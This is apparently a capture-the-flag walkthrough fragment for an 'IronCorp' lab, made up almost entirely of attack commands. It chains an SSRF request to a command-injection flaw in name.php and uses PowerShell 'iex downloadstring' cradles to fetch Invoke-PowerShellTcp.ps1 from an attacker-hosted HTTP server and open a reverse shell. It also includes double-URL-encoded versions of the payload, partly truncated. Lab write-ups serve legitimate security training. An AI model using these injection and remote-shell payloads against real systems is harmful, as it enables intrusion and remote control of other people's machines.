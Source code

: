 <br>
<br>

<h3 align="center">http server</h3>

```bash
:~/IronCorp# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
http://admin.ironcorp.me:11025/?r=http%3A%2F%2F10.201.90.153%3A8000%2FInvoke-PowerShellTcp.ps1#
```

```bash
http://internal.ironcorp.me:11025/name.php?name=hi|whoami
```


```bash
http://internal.ironcorp.me:11025/name.php?name=hi|powershell.exe -c iex(new-object system.net.webclient).downloadstring('http://10.201.118.153:8000/Invoke-PowerShellTcp.ps1'/
```

```bash
http://internal.ironcorp.me:11025/name.php?name=hi|%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%30%25%32%64%25%36%35%25%37%38%25%36%35%25%36%33%25%32%30%25%36%32%25%37%39%25%37%30%25%36%31%25%37%33%25%37%33%25%32%30%25%32%64%25%36%33%25%32%30%25%32%32%25%32%38%25%34%65%25%36%35%....%61%25%33%38%25%33%30%25%33%30%25%33%30%25%32%66%25%34%39%25%36%65%25%37%36%25%36%66%25%36%62%25%36%35%25%32%64%25%35%30%25%36%66%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%63%25%36%63%25%35%34%25%36%33%25%37%30%25%32%65%25%37%30%25%37%33%25%33%31%25%32%37%25%32%39%25%37%63%25%36%39%25%36%35%25%37%38%25%32%32
```


```bash
http://internal.ironcorp.me:11025/name.php?name=hi|Invoke-PowerShellTcp.ps1
```

<img width="961" height="73" alt="image" src="https://github.com/user-attachments/assets/2a2db5bd-f7d7-4605-9d3c-984e81ded5d2" />

<br>
<br>

<img width="1129" height="505" alt="image" src="https://github.com/user-attachments/assets/412250fc-e92a-4dcd-8d4b-500657ec7dfe" />

<br>
<br>

```bash
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.201.28.78/Invoke-PowerShellTcp.ps1')
```

```bash
http://internal.ironcorp.me:11025/name.php?name=hello|%25%37%30%...%33%31%25%32%37%25%32%39
```

```bash
/?r=http://internal.ironcorp.me:11025/name.php?name=hello|%25%37%30%...%33%31%25%32%37%25%32%39
```

<h3 align="center">Invoke-Powershell</h3>

<img width="862" height="313" alt="image" src="https://github.com/user-attachments/assets/a5ed30ba-3a31-4fcb-85cf-23f04bee0d3c" />

<br>
<br>
